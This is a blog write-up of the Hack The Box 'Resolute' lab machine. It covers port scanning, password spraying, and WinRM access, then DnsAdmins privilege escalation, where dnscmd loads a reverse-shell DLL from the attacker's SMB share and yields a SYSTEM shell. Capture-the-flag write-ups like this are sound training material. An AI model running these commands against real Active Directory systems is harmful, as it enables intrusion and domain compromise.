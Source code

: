 ```yaml
---
layout: post
title:	"Resolute Writeup"
date:	2020-06-06
categories:
    - blog
tags:
    - hackthebox
---
```


![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img1.png)

I had some problems the last week and couldn't publish this writeup I wrote in Decembre.

### User Flag

Let’s start by enumerating all the service on the machine with a TCP scan:

~~~
root@kali:~# nmap -T4 -sS 10.10.10.169 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 06:56 EDT
Nmap scan report for 10.10.10.169
Host is up (0.056s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49687/tcp open  unknown
49709/tcp open  unknown
49873/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 38.71 seconds

~~~

Using enum4linux, we find a lot of users:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img2.png)

There is an interesting Description for the user Marko, it seems that the Administrator have put the user password in the description.
Using the credenziali marko:Welcome123! We are not able to log in smb:


~~~
root@kali:~# smbclient -L \\10.10.10.169 -U marko
Enter WORKGROUP\marko's password: 
session setup failed: NT_STATUS_LOGON_FAILURE

~~~

We can try to save all the users in a file and then use the same password for all of them. For this purpose, I used Crack Map Exec.

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img3.png)

And yes, we have an access for the user melanie. Using [evil-winrm](https://github.com/Hackplayers/evil-winrm), we can open a powershell sessione on the machine.

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img4.png)

After some enumeration, we can find a hidden directory PSTranscripts in C:\.

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img5.png)

Inside the subdirectory 20191203 there is a txt file:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img6.png)

The file contains the password for the user ryan:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img7.png)

### Root Flag

With evilwinrm, we can access as ryan. The user ryan, is member of the group “MEGABANK\DnsAdmins”. There is a famous privilege escalation when an user is member of DnsAdmins, the attack is described [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise). We need to create our custom DLL, we can use msfvenom to create a reverse shell in a DLL file:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img8.png)

Then, we can use Impacket to run a smb server to share our custom DDL:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img9.png)

Inject our custom DLL and stop and run again the dns service with the following command:

~~~
dnscmd Resolute /config /serverlevelplugindll \\10.10.14.27\SYRION\syrion.dll
sc.exe \\Resolute stop dns
sc.exe \\Resolute start dns
~~~

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img10.png)

And we get a reverse shell with System privilege:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img11.png)




